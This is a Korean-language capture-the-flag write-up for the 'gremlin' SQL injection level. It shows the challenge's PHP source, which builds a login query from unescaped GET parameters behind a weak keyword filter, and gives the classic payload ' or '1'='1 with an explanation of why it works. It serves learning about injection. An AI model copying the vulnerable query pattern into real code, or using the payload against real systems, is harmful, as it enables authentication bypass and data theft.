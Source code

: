 # gremlin

## 1. Code
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

## 2. Condition
- GET 방식으로 id와 pw를 받는다.
- 작은 따옴표(0x27)를 필터링 하지 않고 있다.

## 3. Solution
변수명 | 값
---|---:
`id` | 1234
`pw` | 1234' or '1'='1

가장 기본적인 sql-injection예제이다.

해당 값을 보내면, query 속 조건은 다음과 같다.
**select id from prob_gremlin where <span style="color:blue">id='1234' and pw='1234'</span> or <span style="color:red">'1'='1' </span>**

조건문은 <span style="color:blue">파랑</span>부분과, <span style="color:red">빨강</span>부분으로 나누어 생각하면 쉽다.
두 조건문 중 하나만 참이어도 참이 되므로, id를 가져오게 된다.
